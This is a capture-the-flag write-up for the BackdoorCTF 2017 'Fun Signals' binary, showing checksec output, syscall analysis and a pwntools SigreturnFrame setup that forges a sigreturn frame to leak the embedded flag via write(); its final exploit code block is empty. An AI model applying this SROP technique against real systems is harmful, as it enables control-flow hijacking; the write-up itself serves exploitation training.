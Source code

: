 # BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin]()

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis

[Program Analysis](./program_analysis.png)

The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python

```